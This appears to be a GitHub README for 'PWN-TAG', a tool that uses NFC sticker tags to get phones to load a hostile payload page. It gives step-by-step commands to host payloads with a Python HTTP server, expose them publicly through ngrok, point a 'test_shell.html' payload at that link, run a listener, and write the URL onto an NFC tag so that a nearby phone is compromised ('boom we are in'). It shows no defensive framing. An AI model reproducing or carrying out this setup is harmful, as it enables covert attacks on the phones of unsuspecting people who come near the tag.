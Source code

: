 # PWN-TAG
"tag to pwn" NFC tag exploit

things you need: 

nfc tag stickers about $10 for 25 >

https://a.co/d/gl2XRV8

nfc tag writer app:
something similar to this one works and 
the free edition works too

https://apps.apple.com/app/id1252962749

lastly you need a debian based linux distro



##Start HTTP Server in Terminal 1

In your ~/PWN_TAG folder:

```bash
python3 -m http.server 8080
```
Leave it running — this hosts your payloads.

## Start ngrok in Terminal 2

Open a new terminal tab or split window, then run:

```bash
ngrok http 8080
```
Copy that https://... link — that’s your live web URL.

## Update test_shell.html in Terminal 3

If you haven’t updated yet:

```bash
nano payloads/test_shell.html
```
Replace with your real ngrok link

##Start Listener in Terminal 4

```bash
python3 listener.py
```

## imbed NFC tag with url:

open nfc writer app

-choose write

-add record

-choose url

-place ngrok link "https://f6xd-3301-602...ngrok-free.app/payloads/test_shell.html"

-write

##now just place your phone near the tag and boom we are in

##H^3 hope all is well homies




